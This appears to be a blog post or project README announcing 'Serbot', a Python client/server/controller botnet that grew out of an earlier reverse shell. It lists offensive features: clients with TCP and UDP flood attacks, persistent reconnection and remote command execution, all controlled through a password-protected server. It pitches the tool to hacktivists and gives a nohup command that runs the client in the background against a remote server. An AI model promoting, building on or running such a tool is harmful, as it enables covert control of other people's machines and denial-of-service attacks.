 Hello everyone,

![alt tag](https://dotcppfile.files.wordpress.com/2014/11/rsz_1rsz_serbot.png)

Serbot is hot, keep reading Lol.

So, lets just get to the point, I’ve showed you [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/) and what it’s capable of, considered as one of the best Reverse Shells I’ve decided to Update Awrs and create Serbot and no, it’s not what you think Lol.

Serbot is an advanced version of Awrs where the Server can be managed by 1 Controller at a time.
#####Example:
Server hosted on 15.48.158.15 and accepts up to 100 clients through port 1567, accepts 1 Controller at a time through port 2357 and the Controller’s functions are protected with a password: “IAmAPassword”
Client 1 hosted on 86.58.157.25 connected to 15.48.158.15:1567
Client 2 hosted on 78.459.17.35 connected to 15.48.158.15:1567
Controller running on my own computer connected to the Server on 15.48.158.15:2357 using the valid password “IAmAPassword”

In Serbot’s case, the Server also plays the role of a Bridge between the Clients and the Controller. This should sum things up. There’s a lot of benefits out of this now that’s for sure. A team of Researches or Hacktivists can now interact with all their clients using their Controllers, they don’t have to worry about portforwading, reverse shell’s stability and speed etc and they’re all sharing everything they have control on in one place.

In Serbot, everything was dealt with, your Server will never crash nor will your Clients no matter what, check the features list below for more info:

#####Server:
1. Linux/Windows Version.
1. Multi Handler. Can handle multiple connections all at once.
1. Bridge. Plays also the roll of a Bridge between the Clients and the Controller.
1. The Controller’s connection requires a plain text password, it’s not the best but it’s more than enough when it comes to keeping “l337 hax0rz b0t tak30v3r” away.
1. Accepts only 1 Controller at a time.
1. Kicks the Controller after 10 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time).
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Client:
1. Linux/Windows Version.
1. TCP Flood.
1. UDP Flood.
1. You’ll never lose your shell. (Commands with No Output, Wrong Commands and Interactive Programs won’t kill your shell)
1. Never closes and is always trying to connect to the Server.
1. Can handle any command properly, such as the cd command.
1. Always gets back a response. (Command Output or Simple Client response)
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Controller:
1. Linux/Windows Version.
1. Handles all commands perfectly.
1. Handles any stupidity (KeyboardInterrupts, empty commands, etc) perfectly.
1. Uses a very small amount of CPU and RAM when running.
1. Easy user interface.
1. Fast and Stable.

This list isn’t enough but that’s all that I can think of right now. If you want to know how stable Serbot is then you have to try and code something similar to it Lol because then you’ll know that it handles everything you’re facing when it comes to bugs, errors, commands etc…

You simply have to remove the “#!/usr/bin/env python2″ at the top of every script to get this up and running on windows.

#####Extra:
If you’re trying to activate the Client threw ssl, shell or web shell then you have to run the Client.py in another process in the background or else your shell will dive into an endless loop and the best way to do that in Linux would be using nohup.

######Example:
nohup python client.py 15.48.158.15 1567 /dev/null &

Greetings to Team Prophetic, Chaoshackerz and all the followers of https://dotcppfile.wordpress.com/,
That’s all for today,
dotcppfile.

